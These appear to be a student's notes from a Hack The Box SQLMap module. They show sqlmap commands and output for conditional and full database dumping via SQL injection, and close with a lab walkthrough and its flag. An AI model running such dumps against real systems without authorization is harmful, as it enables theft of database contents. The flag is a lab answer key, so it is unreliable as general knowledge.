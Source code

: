 
## Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

---

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

# Question
---

![](Pasted image 20250204172820.png)

![](Pasted image 20250204172853.png)

Let's save case 1 and do the following command:

```
python3 sqlmap.py -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch
```

We'll get the following output:

```
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+
```

Flag is `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`
